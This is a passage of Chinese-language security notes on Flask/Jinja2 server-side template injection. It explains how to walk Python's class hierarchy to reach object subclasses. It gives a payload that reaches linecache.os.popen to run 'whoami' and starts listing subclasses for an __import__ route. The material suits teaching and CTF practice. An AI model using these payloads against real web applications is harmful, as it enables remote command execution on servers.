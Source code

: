 **在python3中为 `__builtins__` 和 `builtins`**

这里**只不过** `__builtins__` **代替的** `__builtin__`

>   **哪些BIF可以直接调用可以使用：`dir(__builtins__)`查看**

#### 9、内省request对象

>   **即为Flask模板的一个全局变量request对象（flask.request），代表当前请求对象**



#### 10、利用思路

-   随便找一个内置类对象利用 `__class__`拿到该对象所对应的类

    -   ```python
        ''.__class__.__bases__[0].__subclasses__()
        ().__class__.__mro__[2].__subclasses__()
        ().__class__.__mro__[-1].__subclasses__()
        request.__class__.__mro__[1]
        ```

-   用 `__bases__` 或 `__mro__` 拿到基类 `<class 'object'>`

-   用 `__subclasses__()` 获取所有子类

-   在子类中寻找可以合适的继承链执行命令或读取文件

#### 11、测试姿势

##### 1、可以利用`___builtins__`自建命名空间调用BIF函数，

-   `eval`
-   `__import__`
-   `open`

##### 2、linecache执行命令

**先找到子类中有可直接调用linecache的，**

```python
<class 'traceback.FrameSummary'> 208
<class 'traceback.TracebackException'> 209
```

**在构造payload**

```python
{{
	[].__class__.__base__.__subclasses__()[208]
	.__init__.func_globals['linecache'].os.popen('whoami').read()
}}
```

##### 3、直接调用`__import__()`

**首先找到子类**

```nginx
<class '_frozen_importlib._ModuleLock'> 80
<class '_frozen_importlib._DummyModuleLock'> 81
<class '_frozen_importlib._ModuleLockManager'> 82
<class '_frozen_importlib.ModuleSpec'> 83
```
